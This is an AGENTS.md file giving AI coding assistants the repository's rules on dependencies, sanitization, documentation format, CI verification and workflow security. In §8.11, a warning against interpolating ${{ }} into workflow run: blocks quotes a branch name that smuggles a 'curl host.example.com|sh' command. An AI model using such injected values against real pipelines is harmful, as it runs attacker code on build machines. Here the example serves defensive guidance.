

# AGENTS.md — Agent Operating Instructions & Curation Architecture

This document provides foundational context, architectural standards, and operational guidelines for AI coding assistants (GitHub Copilot, Claude, Cursor, Antigravity, Codex) working within the `vibes` repository.

> **Canonical Source**: This file is the authoritative single source of truth for AI agents curating, authoring, verifying, and maintaining the `vibes` living showcase.

---

## 1. Mission & Core Philosophy of `vibes`

- **A Showpiece for Disciplined Agentic Engineering**: The `vibes` repository exists to document, celebrate, and advance rigorous, reproducible, and observable software engineering performed by AI agents.
- **Countering "Vibe Coding" Myths**: Contrast superficial prompting ("vibe coding") with verifiable, invariant-driven, test-anchored agentic architecture. Every document and artifact in this repository must exemplify high technical precision, poetic conciseness, and uncompromising engineering rigor.
- **Living Knowledge Base**: This is not a static museum; it is an active laboratory. Observations, patterns, and artifacts must reflect real-world field experience from active codebases (such as [`devops-cli`](https://github.com/dan-petty/devops-cli)).
- **A Factory, Not Only an Inspectorate**: This repository builds two kinds of thing, and the balance between them is part of the mission rather than an accident of what was easiest to measure.
  - **Capabilities** — things a reader runs to *build or operate* an application: the crawler, the sandbox, the gateway, the CST parser, the context packer, the trace generator, and the scaffolding that assembles them.
  - **Quality instruments** — things that judge work that already exists: the sentinel, the smell quantifier, the documentation validator, the fuzzer, the supply chain audit.
  - Discipline is what the quality instruments are *for*, so they are load-bearing and not a tax. But a repository whose every recent commit tightened a gate has become an inspectorate, and the thing being inspected stops growing. **Neither side may go a milestone without work.**
  - This drifts silently, because every individual tooling commit is defensible and the aggregate is not visible from inside any of them. [`tools/portfolio_balance.py`](./tools/portfolio_balance.py) reports both ratios — what the repository holds, and where its recent lines went — and it steers rather than gates, per [§11](#11-the-closed-loop-feedback-inversion-dynamic).

    ```bash
    python3 tools/portfolio_balance.py --window 20
    ```

  - **A classifier with a fallback must report how often the fallback answered.** The balance metric classifies by the `path`/`paths` and `kind` each capability declares and falls back to location for everything else — and one commit after that repair, `tools/contract_variables.py` was counted as a quality instrument, because the declaration named a *file* and the capability had grown a second module. The same defect, on the next change, arriving through the declaration instead of through the code. The durable fix is not another special case: the report now states what share of the lines a declaration decided, so a ratio that is really about the directory layout says so. **A fallback that is never counted is a default that silently becomes the measurement**, and a declaration that names a path nothing checks stops covering it the moment the file moves — `test_every_declared_path_exists` is there for that. See [Observation 18](./observations/systems/18-a-correction-inherits-the-frame-it-corrects.md).
  - **A generator's output is held to the same gates as hand-written code.** [`tools/app_factory.py`](./tools/app_factory.py) exists because this repository could measure, judge and fuzz code and could not produce an application. Generated code fails gates in predictable ways — dispatchers that branch past the complexity ceiling, modules with no docstring, READMEs with no structure — so a generator whose output fails them has handed its user a cleanup task and called it a scaffold. [`tests/test_app_factory.py`](./tests/test_app_factory.py) runs the real sentinel, ruff, mypy, documentation validator and generated suite over the real output, because "the output is compliant" is a claim and claims in this repository are executed.
  - **Generate the contract layer; never generate over the domain logic.** One declaration drives the dispatch table, the argument schema and the negative tests, which hand-written agree exactly until someone adds a parameter. `handlers.py` is written once and preserved on every regeneration: a factory that owns the code its user edits is a framework nobody can leave.
  - **An interactive step needs a non-interactive answer, or it is a hang.** [`tools/contract_variables.py`](./tools/contract_variables.py) collects a contract's variables from `--set`, from a recorded answers file, or from a person — and every variable must declare a default, so the contract resolves with nobody watching. Prompting is an override, never a dependency, and nothing prompts unless `sys.stdin.isatty()`. A generator that asks a pipe a question does not fail; it waits, on the machine least able to answer it, and the run looks merely slow until it is killed.
  - **Substitute into the parsed document, never into the text that will be parsed.** An answer rendered into YAML source before `safe_load` can introduce a key, close a quote or start a list — the same defect as interpolating `${{ }}` into a workflow `run:` block, which §8.11 forbids for the same reason. Substitution walks the parsed structure and rewrites string leaves only, in a single pass, so an answer containing `{{ other }}` is inert text rather than a second expansion. The rule generalises: **a value supplied from outside is data in whatever parses it, and turning it into syntax is the whole of the vulnerability.**
  - **The work generators inherit whatever domain they were given.** [Observation 14](./observations/systems/14-defect-shaped-loops-and-the-feature-blind-spot.md) found the loop defect-shaped and roadmap ingestion was the fix; the landscape survey was then added to look outward. Its manifest listed four capabilities, all of them analysis tools, so every gap it could emit was a linter feature and thirteen of sixteen sample applications were invisible to it. When an agent asked it what to build next, it answered with a linter feature, and the citation made that read as rigour. **Before acting on what an instrument proposes, check what it can see.** The narrowing survived the correction by moving out of the code and into the manifest, which is code that nothing executes — see [Observation 18](./observations/systems/18-a-correction-inherits-the-frame-it-corrects.md).

---

## 1a. Dependency Policy: Adopt Reputable Open Source, Do Not Reimplement It

**Reach for the established tool first.** A reputable open source project is the preferred implementation of any solved problem, and reimplementing one by hand is a defect, not a virtue. Hand-rolled equivalents are slower to write, carry the author's misreadings, and are maintained by exactly one person who will not be here next year.

This repository previously treated "zero-dependency" as a quality in itself. It is not. It is a constraint that buys portability in an executable exhibit, and it costs correctness everywhere else. The cost has been measured: a hand-written maintainability index in [`examples/code-smell-quantifier/`](./examples/code-smell-quantifier/) disagreed with `radon`, its own reference implementation, by **18 to 40 points** on the same modules — the ranking held, the absolute values did not, and the threshold calibrated against radon's scale was being applied to numbers that were not on it.

### What Qualifies as Reputable

A dependency is adopted when it clears all of these. The bar is evidence, not popularity:

1. **Maintained**: a release within roughly the last year, or an explicit, credible statement that it is complete.
2. **Licensed compatibly**: OSI-approved and compatible with Apache-2.0. Verify, do not assume.
3. **Proportionate**: the transitive tree is inspected before adoption. A single-function convenience that drags in twenty packages is a worse trade than ten lines of standard library.
4. **Replaceable**: the surface consumed is small enough to swap. Adopt the library, not its worldview.
5. **Auditable**: the project is on a public registry with source and issue history available.

### The Obligations That Come With It

Adoption is not free, and these are the conditions of it:

- **Declare it in [`pyproject.toml`](./pyproject.toml)**, with a lower bound, and nowhere else. The dependency list previously lived duplicated across `ci.yml`, `.pre-commit-config.yaml` and `CONTRIBUTING.md`, and drifted: the pre-push hook shipped without `pyyaml` and `markdown-it-py` and aborted every push until someone hit it.
- **Consume it behind a narrow seam.** Import what the tool computes, not its data model, so replacing it is an edit to one module.
- **Prefer the tool's own metric to a recomputation of it.** If `radon` reports the maintainability index, report radon's number; do not paraphrase the formula.
- **A dependency that is no longer used is removed in the same commit that stops using it**, per §7's zero-zombie rule.

### Where Zero-Dependency Still Applies

Sample applications under `examples/` are *exhibits*: a reader copies one file and runs it. Those keep the standard library where practical, and say so in their README. That is a deliberate exception scoped to copy-pasteable artifacts, and it never applies to `tools/`, which is infrastructure.

---

## 2. Zero-Trust Security & Egress Sanitization Mandate

AI agents authoring content for `vibes` MUST adhere strictly to the following sanitization rules without exception:

1. **Zero Information Leakage**:
   - Never commit, quote, or expose confidential, private, hidden, or gitignored files (`.env*`, `.ssh/`, `.data/`, credentials, API tokens, private keys).
   - Never publish concrete internal hostnames (e.g. `*.lan`, `*.local`, homelab machine names, internal DNS suffixes).
   - Never publish private RFC 1918 IP addresses (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`).
2. **Mandatory Documentation Standards**:
   - **IP Addresses**: Always use RFC 5737 documentation blocks (`192.0.2.0/24`, `198.51.100.0/24`, `203.0.113.0/24`) or loopback (`127.0.0.1` / `localhost`).
   - **Hostnames & Endpoints**: Standardize all mock, test, or illustrative endpoints to `example.com` (e.g., `http://example.com/api`), or abstract role placeholders (e.g., `<worker-node>`, `<storage-host>`). Never invent arbitrary subdomains (e.g., avoid `api.example.com` or `vault.example.com`).
   - **Paths**: Abstract local user directories (`/home/user/...` or `~/.config/...`).
3. **Auditable Waivers for Detector Fixtures (`# sentinel: allow[...]`)**:
   - A detector's negative fixtures must contain the very strings the detector hunts: a test asserting that private IPs are caught has to embed one. Such files declare a **justified, module-header waiver**:
     ```python
     """Unit tests for the egress guard."""

     # sentinel: allow[ZeroTrustSanitization] — negative fixtures asserting the detector fires
     ```
   - The waiver is parsed from real comment tokens (`tokenize`), never from text inside string literals, and is honored only within the first 15 lines so reviewers always see it above the code it covers.
   - **Only `ZeroTrustSanitization` is waivable.** Structural caps (`CyclomaticComplexity`, `NestingDepth`) are never opt-out: a metric you can waive is not an invariant. A waiver naming a non-waivable invariant, lacking a justification of at least 12 characters, or otherwise malformed is itself reported as a `WaiverIntegrity` violation — and the underlying violation still fires.
   - Waivers are a scalpel for fixtures, never a mute button for production sources. A private IP in a non-test module is a leak, not a fixture.

---

## 3. Structural Taxonomy & Organization Standards

Every contribution to `vibes` must fit cleanly into one of four core categories:

| Category | Target Directory | Description & Purpose |
|---|---|---|
| **Docs** | `docs/` | Foundational theory, taxonomy definitions, curation guidelines, and the Agentic Manifesto. |
| **Observations** | `observations/<project>/` | Empirical case studies of real agent interactions, emergent behaviors, pitfalls, and breakthroughs. |
| **Patterns** | `patterns/` | Reusable, cross-project operational playbooks and architectural strategies. |
| **Artifacts** | `artifacts/<type>/` | Concrete, verifiable assets (prompt harnesses, JSON schemas, task specs, diff snapshots). |

> [!TIP]
> Before authoring an observation, run the [Agentic Experience Contribution Harness](./artifacts/prompts/experience-contribution-harness.md). Its first stage returns `NO_OBSERVATION` for most sessions, which is the expected outcome: the value of this archive is set by what does not get written. An agent asked to "write up this session" will always produce a document; the harness is the filter that decides whether it should.

### Rules of Placement
- Never scatter loose files in the root directory. The root holds exactly the repository-level documents (`README.md`, `LICENSE`, `AGENTS.md`, `CHANGELOG.md`, `CONTRIBUTING.md`) and tooling configuration (`pytest.ini`, `.pre-commit-config.yaml`, `.gitignore`). Everything else belongs in one of the four category directories.
- The directory map in [`README.md`](./README.md) is mechanically diffed against the filesystem by `docs_validator.py` (`directory_map` rule): every mapped path must exist, and any directory the map enumerates must be enumerated completely. Add new files to the map in the same commit, or mark a deliberately partial listing with an `...` entry.
- All new observations must reside in a project-specific subdirectory under `observations/` (e.g., `observations/devops-cli/`).
- Filenames must be lowercase with hyphens (kebab-case), descriptive, and self-explanatory. Number prefixes (`01-`, `02-`) are encouraged for curated reading sequences.

---

## 4. Observation Authoring Standard

Every observation document under `observations/` must adhere to the following five-part structure:

```markdown
# [Observation Title]

## 1. Executive Context & Baseline
Brief description of the project, subsystem, or technical challenge where the phenomenon occurred.

## 2. The Observed Phenomenon
What specific behavior, emergent capability, or friction point was observed during agent execution? Include quantitative metrics or quotes where applicable.

## 3. The Underlying Failure Mode or Catalyst
Why did this happen? Analyze the cognitive or operational root cause (e.g., context window saturation, heuristic brittleness, token economy distortion, lack of deterministic grounding).

## 4. Remediation & Architectural Pattern
What engineering countermeasure, invariant, or architectural pattern was deployed to solve the problem? Link directly to corresponding patterns in `patterns/`.

## 5. Verifiable Impact & Key Takeaways
Concrete evidence of resolution (test suite results, token reduction percentages, CI gate enforcement) and memorable aphorisms for agent practitioners.
```

---

## 5. Pattern Authoring Standard

Every pattern under `patterns/` opens with the canonical metadata block, so a reader can judge applicability before reading the body. Three competing vocabularies (`Pattern Type`, `Category`, a prose subtitle) had accumulated across nineteen files before this was made mechanical; `docs_validator.py` now enforces it (`pattern_header` rule):

```markdown
# Pattern: <Name> — <the sharp version of what it does>

> **Pattern Class**: <domain>
> **Problem**: <the failure mode, in one line>
> **Solution**: <the countermeasure, in one line>
> **Reference Implementation**: [`path`](../path)   <!-- optional: omit when none exists -->
```

Every pattern must then provide an actionable operational playbook:
1. **Problem Statement**: What failure mode does this pattern solve?
2. **Core Mechanics**: Step-by-step description of the pattern (including Mermaid flowcharts or sequence diagrams).
3. **Implementation Example**: Concrete code snippet, prompt snippet, or CLI command sequence demonstrating the pattern.
4. **Guardrails & Anti-Patterns**: What happens if the pattern is applied incorrectly or lazily?
5. **Cross-References**: Links to related observations and artifacts.

---

## 6. Formatting & Visual Aesthetics

- **Rich GitHub Markdown**: Use GitHub-style callouts (`> [!NOTE]`, `> [!IMPORTANT]`, `> [!TIP]`, `> [!WARNING]`).
- **Mermaid Diagrams & Mandatory Label Quoting**: Include Mermaid graphs to visualize workflows, state machines, and decision trees.
  - **Mandatory Quoting of Edge & Node Labels**: Always wrap edge labels containing parentheses `()`, comparison operators (`>`, `<`), brackets (`[]`), braces (`{}`), or colons in double quotes: `A -->|"Yes (Error)"| B` or `RelCheck -->|"False (Escape)"| Fail`. Never leave special characters unquoted inside edge pipes `|Yes (Error)|`, which causes Mermaid lexer failures (`Parse error on line ...: Expecting 'SQE', ... got 'PS'`).
  - **Quoted Node Text**: Always enclose node labels containing parentheses or punctuation in quotes: `Node["Label (Details)"]` or `Check{"Condition?"}`.
  - **Modern Declarations Only**: Always declare `flowchart TD|LR`, never the deprecated `graph` alias. Mechanically enforced by `docs_validator.py` (`mermaid` rule).
  - **Choose the Diagram Type That Matches the Mechanism**: A flowchart is the default, not the answer. Reach for the form that carries the most information per token:

    | Mechanism being shown | Diagram type |
    |---|---|
    | Ordered exchange between parties (protocol, delegation, tool call) | `sequenceDiagram` |
    | Lifecycle with irreversible transitions (ratchets, degradation, sessions) | `stateDiagram-v2` |
    | Value vs. effort, risk vs. reward, any two-axis placement | `quadrantChart` |
    | A metric moving across a measured series | `xychart-beta` |
    | Chronology of milestones or phases | `timeline` |
    | Branch, PR, and merge choreography | `gitGraph` |
    | Decision logic, pipelines, control flow | `flowchart` |

  - **Accessible, Theme-Independent Palette (WCAG AA)**: GitHub renders Mermaid on both light and dark backgrounds. A `fill:` without an explicit `color:` inherits a label color that flips with the theme and disappears against the fill. **Always declare both**, and always from this palette — every pair clears the WCAG AA 4.5:1 floor, and `docs_validator.py` computes the ratio mechanically (`mermaid_style` rule):

    | Class | `fill` | `color` | Contrast | Use for |
    |---|---|---|---|---|
    | `failure` | `#b3261e` | `#fff` | 6.5:1 | Failure modes, violations, anti-patterns |
    | `success` | `#1b5e20` | `#fff` | 7.9:1 | Verified outcomes, passing gates |
    | `caution` | `#f2b705` | `#000` | 11.6:1 | Bounded risk, degraded-but-safe states |
    | `accent` | `#4527a0` | `#fff` | 10.2:1 | The mechanical oracle or remediation itself |
    | `neutral` | `#37474f` | `#fff` | 9.7:1 | Inert infrastructure and context |
    | `zoneFail` | `#f7d9d7` | `#000` | 15.9:1 | Subgraph container: the broken state |
    | `zonePass` | `#d8ead9` | `#000` | 16.7:1 | Subgraph container: the healed state |
    | `zoneWarn` | `#fdf0cc` | `#000` | 18.5:1 | Subgraph container: the contested middle |

  - **Prefer `classDef` Over Repeated `style`**: Declare the classes a diagram uses once and apply them with `:::`, reserving `style` for genuine one-offs:

    ```mermaid
    flowchart LR
        classDef failure fill:#b3261e,color:#fff
        classDef success fill:#1b5e20,color:#fff
        Broken["Gate audits argv[1]"]:::failure --> Fixed["Gate audits every path"]:::success
    ```

  - **No Semicolons in Sequence Diagram Text**: Mermaid treats `;` as a **statement separator** in `sequenceDiagram` blocks, so `A->>B: complete; API preserved` truncates the message at the semicolon and fails to parse the remainder. Use a comma or a full stop. Enforced by `docs_validator.py` (`mermaid` rule).
  - **Every Diagram Must Actually Render**: Textual rules cannot tell whether a diagram parses. Before pushing, run the real engine:

    ```bash
    npm install --no-save mermaid@11 jsdom@30
    node tools/verify_mermaid.mjs .
    ```

    This gate runs in `ci.yml` and is authoritative — a diagram that fails it reaches GitHub as a broken block, which is worse than no diagram at all.
  - **A Diagram Must Show a Mechanism, Not a Table of Contents**: Three boxes repeating adjacent prose earn nothing. A diagram belongs where structure is hard to say in a sentence: a cycle, a race, a fan-out, an irreversible transition, a place where two paths diverge. If the caption above it already conveys the whole thing, delete the diagram.
- **Syntax Highlighting & Nested Code Fences**: Always specify the language identifier for code fences (`python`, `bash`, `json`, `yaml`, `markdown`, `mermaid`). For markdown documents embedding markdown examples, use 4-backtick or 5-backtick outer fences (````markdown ... ````) to prevent premature fence closure.
- **Directory Maps Belong at the Bottom**: A `text` directory tree is reference material, not an introduction. It is the least useful thing a reader meets first and the least useful thing an agent reads at all — an agent that needs the layout runs `ls` or `rglob`, and gets an answer that cannot be stale.
  - Place any directory map as the **final section** of its document, below the content that explains why the files exist.
  - Only keep a map whose entries carry information the filesystem does not: what each file is *for*. A bare listing of names earns nothing and should be deleted rather than relocated.
  - Maps remain mechanically diffed against the filesystem by `docs_validator.py` (`directory_map` rule) wherever they sit.
- **Clickable Links**: Ensure all cross-references are valid markdown links.
- **Poetic Conciseness**: Avoid fluff, boilerplate, or repetitive summaries. Deliver maximum information density per token.

---

## 7. Continuous Curation & Self-Hardening

- **Prompt Defect Tracking**: If an AI agent encounters a formatting error, broken link, or ambiguity while operating in `vibes`, the agent MUST immediately fix the underlying cause and update `AGENTS.md` with defensive instructions.
- **Fix the Class, Then Close the Hole That Let It In**: Repairing the defect is half the work. The other half is asking *what was supposed to catch this, and why didn't it*. Every entry in [§10a](#10a-measuring-and-believing-what-you-measured) exists because a defect was fixed and the same question was then asked about the gate.
  - If the answer is "nothing was looking", configure something and gate it — do not rely on the next agent repeating your one-off audit.
  - If the answer is "a gate exists but never fires on this input", the gate is the defect. A cap that is never reached, an `except` never entered, and a rule never evaluated are all indistinguishable from passing.
  - If the answer is "a decision was made and not recorded", record it where the tooling reads. A judgement an agent has to re-derive every pass will be re-litigated every pass — see the deferral contract in §9.
- **Zero Zombie Code & Stale Artifacts**: Ruthlessly remove obsolete notes or broken links. Keep the repository clean, modern, and exemplary at all times.
- **The Delete-On-Sight Rule Is Version-Scoped**: "Remove obsolete code immediately" is correct **only while the major version is 0**. Nothing in a source tree announces which regime is in force, so an agent that infers the policy from tree cleanliness will keep deleting straight through the 1.0 boundary and break callers who were promised otherwise.
  - **Pre-1.0**: delete on sight. No shims, no compatibility layers, no deprecation ceremony.
  - **Post-1.0**: every removal is a dated contract — `since`, `remove_in`, `replacement` — with a `DeprecationWarning` at runtime, removal scheduled in a major bump, and internal call sites migrated first. Enforced by [`examples/deprecation-lifecycle-sentinel/`](./examples/deprecation-lifecycle-sentinel/); see [the pattern](./patterns/post-v1-deprecation-lifecycle.md).
  - Deprecating without a removal version is worse than either reflex: it pays the full maintenance cost of keeping the code *and* trains callers to ignore warnings.

---

## 8. Autonomous Recursive Development Protocol & Project Tooling

To ensure the repository thrives with **zero required human manual intervention**, autonomous agents must follow the closed-loop recursive development lifecycle:



### Operational Rules for Agents:
1. **Automated Issue Triage**:
   - When handling an issue, run `python tools/project_tooling.py triage-issue --number <num> --title "<title>" --body-file <path>` to extract taxonomy labels and verify acceptance criteria.
2. **Pre-Push Local Sentinel Certification**:
   - Before opening a pull request, run `python examples/ast-invariant-sentinel/sentinel.py <modified_files>`.
   - Verify that cyclomatic complexity remains $\le 10$, nesting depth $\le 5$, and zero RFC 1918 private IPs are exposed.
   - Run the full static set, which `ci.yml` and `.pre-commit-config.yaml` also run:

     ```bash
     ruff check tools tests examples benchmarks
     (cd tools && mypy .)              # tools/ is the source root; see pyproject.toml
     python -m pytest -q
     python tools/docs_validator.py .
     ```

3. **A Finding Nobody Looks For Is Not a Finding**:
   - This repository ran for its entire life with no linter and no type checker configured. When one was finally pointed at it, **192 findings** were waiting, and they were not all style: an undefined `logger` in an error handler that could therefore only raise `NameError`, three `zip()` calls truncating silently on length mismatch, five mutable class attributes shared across instances, a `return x if ok else x`, and a measured elapsed time computed and thrown away.
   - None of those were hard to detect. Nothing was detecting.
   - **Never leave an analysis tool installed but unconfigured.** If a tool is worth running once to see what it says, it is worth adding to `pyproject.toml` and the gates. A one-off cleanup decays back to the same state; a gate does not.
   - Where a rule genuinely does not fit this repository, **turn it off in configuration with the reason written down** — `RUF002`/`RUF003` are disabled because the prose uses en and em dashes deliberately. Silence from an unconfigured tool and silence from a deliberately disabled rule look identical in the terminal and are opposites in fact.

4. **Never Apply a Mechanical Fix Without Re-Running the Suite**:
   - `ruff check --fix` removed six names from `docs_validator.py` that were re-exported for consumers. The module did not use them, so they were unused by the letter of the rule, and the test suite stopped collecting.
   - The defect was not the auto-fix. It was that the re-export was **implicit**: nothing in the file said those names were public. The durable repair is `__all__`, not re-adding the imports.
   - The same pass wrapped a long `from X import Y  # type: ignore[...]` onto a continuation line, moving the comment to where mypy no longer reads it. `line-length` is now set so the import rule leaves those lines alone.
   - Apply mechanical fixes in one batch, then run tests, lints and type checks together. Fixes that satisfy one tool by breaking another are common where two tools own the same line.
5. **Publish Findings Where They Are Read**:
   - A CI log is where a finding goes to be ignored: nobody opens it unless the build is already red, and a `note`-level observation never turns it red. [`tools/sarif_report.py`](./tools/sarif_report.py) emits every oracle's findings as one SARIF 2.1.0 log so code scanning renders them on the pull request that introduced them.

     ```bash
     python3 tools/sarif_report.py --out findings.sarif    # all four oracles, schema-validated
     python3 tools/sarif_report.py --include-advisory      # adds the informative ones
     ```

   - **Validate before writing.** The OASIS schema is committed at `artifacts/schemas/sarif-schema-2.1.0.json` and every log is checked against it, because GitHub rejects a malformed upload with a message naming neither the field nor the run.
   - **A tool that found nothing still reports.** Code scanning resolves an alert only when the tool that raised it reports again without it; a tool that simply stops appearing leaves every alert it ever raised open forever. Never filter out empty runs.
   - **Fingerprints must exclude the line number.** An import added above a defect is not a new defect. `partialFingerprints` is what stops an unrelated edit re-alerting the whole file.
   - **Advisory findings are opt-in.** They need judgement, and eighty-nine of them arriving as alerts bury the two that gate a release — the same reason the workbench keeps them out of the backlog.
   - Adding an oracle means adding an adapter, not a second workflow. Each adapter owns its own severity mapping, because only the oracle knows whether its finding stops a release or merely informs one.

6. **The Mandatory Self-Hardening Rule**:
   - Whenever authoring a pull request that addresses an issue labeled `bug`, `defect`, or `regression`, the agent **MUST ALWAYS MODIFY `AGENTS.md`** to add a concrete preventative rule or guardrail.
   - PRs addressing defects that do not touch `AGENTS.md` will fail the automated `recursive-hardening.yml` check.
7. **Multi-Path CLI Contracts (Never Silently Truncate argv)**:
   - Every tool invoked by `.pre-commit-config.yaml` with `pass_filenames: true` receives **N staged filenames per invocation**, not one. Entrypoints MUST accept `nargs="*"` and audit every supplied path.
   - Reading only `argv[1]` is a **silent certification failure**: the sentinel prints `✅ All architectural invariants PASSED!` after inspecting the first file and never opening the rest. A gate that reports success on unread input is worse than no gate.
   - Parse arguments with `argparse`, never by hand-slicing `sys.argv` or filtering tokens by prefix. Unknown flags must exit non-zero rather than be discarded.
   - When adding a hook, verify the multi-file path explicitly: `python <tool> <clean_file> <violating_file>` must exit non-zero.
8. **Acting on an Inbound Review (Verify the Batch Before Fixing Anything)**:
   - An external review arrives as a list of confident, located, severity-ranked claims. Treat the list as hypotheses. A 286-finding review of this repository carried executable verification criteria on 274 items and executed none of them, so a wrong location, an inverted polarity, and a deliberate teaching artifact all reached the report as CRITICAL.
   - **Verify the whole batch before fixing any of it.** Withdrawals are cheap, and a systematic error — a stale line map, an inverted check — is far easier to see across findings than within one.
   - For each finding: run the criteria, quote the cited lines, state observed beside expected, and check whether the construct is declared deliberate in its own file. See [Findings Must Carry Their Own Falsification](./patterns/findings-must-carry-their-own-falsification.md).
   - **Fix the class, not the instance.** Three separate findings about private addresses in prose meant markdown was never checked at all; the durable fix was the `sanitization` rule, not three edits.
   - Record which findings were false and why. A review pipeline that never learns its false-positive rate cannot improve, and the next batch carries the same class.
9. **Autonomous Review Thread Resolution**:
   - If the `pr-sentinel.yml` bot leaves a review comment or request for remediation, the agent must treat the sentinel feedback as an unyielding boundary condition, refactor the code to satisfy the metric, and re-push.
10. **A Commit Is Not Delivered Until It Is Pushed and Its Checks Are Green**:
   - **Push after committing.** Work that exists only in a local object store is indistinguishable, from everywhere except that one checkout, from work that was never done. Commit, then `git push`, in the same pass — do not report a task complete with commits sitting unpushed and do not leave the decision for someone else to remember. The exception is an explicit instruction to hold, or a branch policy that requires a pull request, in which case push the branch and open the PR.
   - **Then watch what you pushed.** Pushing starts the gates; leaving is how a red build becomes somebody else's morning.

     ```bash
     gh run list --branch "$(git branch --show-current)" --limit 5
     gh run watch "$(gh run list --branch "$(git branch --show-current)" --limit 1 --json databaseId -q '.[0].databaseId')" --exit-status
     ```

   - **Finished is not passed.** `status: completed` says the run stopped, not that it succeeded; read `conclusion`, and read it for **every** job. A matrix entry that failed while its siblings passed is a failure, and `--exit-status` is what makes the shell agree.
   - **`--exit-status` belongs to `gh run watch`, not to `gh pr checks`**, and a pipeline hides the difference. On `gh` 2.101.0 `gh pr checks <n> --watch --exit-status` prints `unknown flag`, dumps the help text and exits 1 — but `gh pr checks <n> --watch --exit-status | tail -12` exits **0**, because a shell pipeline reports the status of its last command. Hit here while watching PR #15: the output looked like an ordinary help page scrolling past, and nothing in the exit code said the watch had never run. Take the verdict from the rollup rather than from the exit status of a pipeline:

     ```bash
     gh pr checks <n> --watch --interval 15
     gh pr view <n> --json mergeStateStatus,statusCheckRollup \
       -q '.mergeStateStatus, (.statusCheckRollup[] | "\(.name // .context) \(.conclusion // .state)")'
     ```

   - **An empty check list is not a passing check list.** `gh pr checks <n> --watch` exits **0** printing `no checks reported` when no check has registered yet, which on a freshly opened pull request is the normal state for the first several seconds. Observed here on PR #4: the watch returned success immediately, and the five checks that were about to run all appeared afterwards. Wait until at least one check exists before believing the verdict, or watch the run identifiers directly:

     ```bash
     gh pr view <n> --json statusCheckRollup -q '.statusCheckRollup | length'   # must be > 0 first
     gh pr checks <n> --watch --interval 15
     ```

   - **Local green does not predict CI green, and the difference is not noise.** CI builds a clean checkout, installs from the manifest rather than from whatever is already importable, and runs a three-version matrix (3.12, 3.13, 3.14) plus gates that cannot run locally at all — `actionlint`, the Mermaid render gate behind `npm install`, and the coverage floor. Interpreter differences are real and reachable: `ast.parse` on a source containing a null byte raised `ValueError` before 3.12 and `SyntaxError` after, which changes whether an `except` clause written against one of them catches anything. Verify a version-sensitive claim against the versions in the matrix rather than against the one that happens to be installed.
   - **A red check is your defect until you have evidence otherwise**, and the evidence is a reproduction, not a re-run. Re-running a failed job to see whether it passes the second time is how a real flake gets promoted to "known flaky" without anyone finding its cause — see [§10a.6](#10a-measuring-and-believing-what-you-measured) for the 0.3% flake that survived every serial re-run and was a defect all along.
   - **Never make a check green by weakening the check.** No `--no-verify`, no force-push over a shared branch, no `continue-on-error` added to a job that just failed, no deleting the assertion. If a gate is genuinely wrong, fix the gate in its own commit and say so.
   - **Code scanning is part of the run.** After the SARIF upload lands, read the alerts the change introduced (`gh api repos/:owner/:repo/code-scanning/alerts --jq '.[] | select(.state=="open") | .rule.id'`) and either fix them or record why they stand. An alert nobody reads is the CI log this repository built SARIF to escape.

11. **A Workflow With Zero Runs Is Unverified Code**:
   - Count the runs before trusting a workflow. Three of this repository's five had never executed once — `pr-sentinel.yml` and `recursive-hardening.yml` fire on `pull_request`, `autonomous-triage.yml` on `issues`, and across the repository's entire history there were **zero pull requests and zero issues** while `ci.yml` accumulated 83 runs. Every commit had gone straight to `main`.

     ```bash
     gh api repos/:owner/:repo/actions/workflows --jq '.workflows[] | [.path, (.id|tostring)] | @tsv' |
       while IFS=$'\t' read -r path id; do
         printf 'runs=%-4s %s\n' "$(gh api "repos/:owner/:repo/actions/workflows/$id/runs" --jq .total_count)" "$path"
       done
     ```

   - **Committing straight to `main` is what keeps them dead.** It is not merely a process preference: the pull-request lifecycle in §8 is the trigger for half the automation, so an agent that only ever pushes to `main` disables the sentinel that certifies its diffs and the loop that audits its hardening. Substantive changes go through a branch and a pull request, which is also the only way to find out whether those workflows work.
   - **Nothing else reads workflow code.** `actionlint` checks that the YAML and the shell are well-formed; it does not know that `verify-hardening --diff-file --is-defect` is a command the tool accepts. [`tests/test_workflow_contracts.py`](./tests/test_workflow_contracts.py) resolves every workflow's command line against the target script's own argument parser, and pins the rules below. Add to it whenever a workflow grows a new dependency on the tree.
   - **Never interpolate `${{ }}` inside a `run:` block.** Actions substitutes expressions before bash parses anything, and Git permits `;`, `$`, `(`, `)`, `|` and backticks in a ref name — so `git diff origin/${{ github.base_ref }}` on a branch named `x;curl host.example.com|sh` is two commands on the runner. Pass values through `env:`, where they reach the process instead of its source. This rule existed in `autonomous-triage.yml` as a comment and was absent from the other two workflows, which is what an unexecuted file accumulates.
   - **A skipped step is not a passed step.** `pr-sentinel.yml` guarded its audit on `files_count > 0` and then applied a `certified-by-sentinel` label under `if: success()`, so a documentation-only pull request was labelled certified by an audit that never ran — [Observation 11](./observations/systems/11-silent-certification-failure-and-gate-integrity.md)'s failure mode, inside the workflow named after the sentinel. Either run the step unconditionally and let it report that it had nothing to do, or make the downstream step require `steps.<id>.outcome == 'success'`.
   - **An auditor that reads a declaration must never report its score as a property of a run.** `CISPolicyAuditor` in [`examples/ephemeral-container-sandbox/`](./examples/ephemeral-container-sandbox/) scored the *policy object* and reported 100.0/100 with zero violations — while the engine-less execution path, the one that runs whenever `docker` and `podman` are absent, enforced **none** of the eight controls it had just certified. The same harness then ran a payload that opened a socket and wrote a file into the invoking user's home directory, and called the run compliant. Conformance of a configuration and enforcement by a runtime are two measurements; a component that reports one number will have it read as the other. Report both, name every control the runtime cannot apply and why, and keep a test asserting the two scores differ. This is [Observation 11](./observations/systems/11-silent-certification-failure-and-gate-integrity.md) in the component whose entire job is containment — **the fallback path is the one that runs, so it is the one to audit.**
   - **A denylist denies more than you meant, and the excess is invisible until it fires.** Killing the `socket` syscall also killed every benign payload: the C library resolves users through NSS over a socket, so `site.py` → `expanduser` → `pwd.getpwuid` died with `SIGSYS` in any interpreter started without `HOME`, which this harness guarantees by stripping the environment. Refusing with `EPERM` instead keeps the confinement and lets the workload report its own denial. Before shipping a denylist, run the *benign* case under it — a control that breaks ordinary work is a control someone disables, and a filter that kills everything is indistinguishable from a filter that works.
